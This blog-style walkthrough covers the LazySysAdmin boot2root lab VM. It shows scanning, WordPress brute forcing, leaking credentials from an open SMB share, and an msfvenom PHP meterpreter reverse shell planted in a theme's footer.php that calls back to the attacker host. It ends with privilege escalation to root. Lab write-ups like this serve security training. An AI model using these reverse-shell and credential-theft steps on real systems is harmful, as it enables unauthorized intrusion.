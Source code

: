 <h1>LazySysAdmin 1.0 Walkthrough</h1>

Author Description: "Boot2root created out of frustration from failing my first OSCP exam attempt."

Difficulty: Beginner - Intermediate

Challenge: Accepted

I imported to VMware Workstation, using a host only subnet for this and my Kali VM.

Run a quick `netdiscover` to gather the target's IP and an `ifconfig` to confirm my attacker IP.

Now I can really start things off with an Nmap scan.

`nmap -Pn -sT -sV -O 192.168.17.139 -p1-65000`

![Image of Nmap](https://blu0.github.io/LSAWalkthrough/LSAnmap.png)

So there's a few different places to start, but I'll take a look at the website on Port 80 first.

![Image of Site](https://blu0.github.io/LSAWalkthrough/LSAsite.png)

Nothing really jumps out after looking around for a bit, so time for some more web enumeration.

I'll go with trusty old Nikto here, and move to Dirbuster, etc if needed.

`nikto -h 192.168.17.139`

![Image of Nikto](https://blu0.github.io/LSAWalkthrough/LSAnikto.png)

So looking through the results, there are quite a few things to check here. First off, the robots.txt shows the same directories as the Nikto scan, so that's a wash. The `/old/` and `/test/` directories show nothing at all, so moving on. I poked a little bit at the `/myphpadmin/` page but it requires a password. A few guesses at username/password combos proved useless... meh, moving on for now.

There is a WordPress site, but nothing seems to load. Who cares? I’m going to add `/wp-admin/` anyway and see if there is a login page.

Voila!

![Image of Wp-admin](https://blu0.github.io/LSAWalkthrough/LSAwp.png)

WordPress looks like the most viable path at the moment, and it would be a quick reverse shell if I can work my way in.

It's time for some WPScan to see what usernames are there.

![Image of WPscan](https://blu0.github.io/LSAWalkthrough/LSAwpscane.png)

![Image of WPscan2](https://blu0.github.io/LSAWalkthrough/LSAwpscanadmin.png)

So we have Admin and nothing else. Ok then.

Trying some WPScan Brute Force, I scraped the site with Cewl:

`cewl -m 5 http://192.168.17.139/wordpress -w lazycewl.txt`

Then ran it through some mutations with John The Ripper:

`john --wordlist=/root/lazycewl.txt --rules --stdout > lazymutate.txt`

Using WPscan to try and Brute Force the password:

`wpscan -u http://192.168.17.139/wordpress/ -w /roo/lazymutate.txt -U admin`

No hits, and I also tried rockyou for a few minutes before cancelling it. Brute force is probably not the answer at this point, but we can return to it if no other information is found. Maybe the password is somewhere else.

Time to check the SMB port and see if there is any relevant data to be found. I probably could have done this a little earlier and saved some time, but here goes.

`enum4linux -a 192.168.17.139`

![Image of Enum4Linux](https://blu0.github.io/LSAWalkthrough/LASenum4linux.png)

There are a few options, but `share$` looks interesting since it is not a default.

I connect to share as guest.

![Image of SMBClient](https://blu0.github.io/LSAWalkthrough/LSAsmbclient.png)

No problem listing directories or files.

![Image of SMBClient2](https://blu0.github.io/LSAWalkthrough/LSAsmbclient2.png)


The `get` command works, so I grabbed the wp-config.php file and viewed it on my system.

![Image of wp-config](https://blu0.github.io/LSAWalkthrough/LSAwp-config.png)

Trying the password found in the `wp-config.php` file in the WordPress admin panel and what do you know, the password works.

Now it's time to get a quick reverse shell on the machine. To do this I will generate a Meterpreter shell using the following command (.141 is the Kali machine):

`msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.17.141 LPORT=4444 -f raw > shell.php`

Note: Meterpreter is not really needed, I could have tried any number of php reverse shells, but I wanted the meterpreter one for the `shell` command so that if I do something to botch my shell I can simply end the session instead of having to reconnect entirely.

Once the shellcode is generated, I do a little touch up on the format (remove leading `//` and add `?>` to the end), then add to footer.php of the Wordpress theme.

![Image of footer](https://blu0.github.io/LSAWalkthrough/LSAfooter.png)

Get meterpreter ready by confirming all options are set appropriately (Payload/LHOST/LPORT)

![Image of meterpreter](https://blu0.github.io/LSAWalkthrough/LSAmeterpreter.png)

Now type run and reload the wordpress site.

![Image of meterpreter2](https://blu0.github.io/LSAWalkthrough/LSAmeterpreter2.png)

The reverse shell is successful, so I check what directory I'm in, use the `shell` command, get my TTY shell with python using `python -c 'import pty; pty.spawn("/bin/sh")'`, and get some basic system info.

I tried the WordPress password to switch to root, but that's too easy and of course it doesn't work.

Moved to /tmp and did a quick wget from my attack machine (ensure apache is running on Kali) to download the [linuxprivchecker.py](http://www.securitysift.com/download/linuxprivchecker.py) script. Ran it, but found nothing too obvious at first glance. I'll poke around some more with what I already have and come back to it if I get stuck.

Maybe there is another user in the database or another database.

![Image of mysql](https://blu0.github.io/LSAWalkthrough/LSAmysql.png)

![Image of mysql2](https://blu0.github.io/LSAWalkthrough/LSAmysql2.png)

![Image of mysql3](https://blu0.github.io/LSAWalkthrough/LSAmysql3.png)

Nope, no other users.

What other users are on the system?

![Image of passwd](https://blu0.github.io/LSAWalkthrough/LSApasswd.png)

User `togie` looks interesting. I tried swiching to togie with the WordPress password, but no go.

Did I overlook something previously?

Yes, actually. It occurs to me that I haven't explored my SMB share nearly enough, so I go back to the SMB share and grab deets.txt

![Image of deets](https://blu0.github.io/LSAWalkthrough/LSAdeets.png)

Now that's promising.

Back to my low priv shell, now I'm able to switch to togie with the newly discovered password, and I see the user is in the sudo group as well.

![Image of su](https://blu0.github.io/LSAWalkthrough/LSAsu.png)

Let's see what I can do with sudo access.

![Image of shadow](https://blu0.github.io/LSAWalkthrough/LSAshadow.png)

Looks like a restricted shell, but this doesn't faze me.

![Image of root](https://blu0.github.io/LSAWalkthrough/LSAroot.png)

Proof.txt is mine, plus I have the root password hash if I want to crack it later.

I could experiment with breaking out of the restricted shell (probably vim would work here), but I didn't bother at this point.


Overall, I think this was a good challenge, and a good reminder to enumerate thoroughly before moving too fast from one phase to the next.
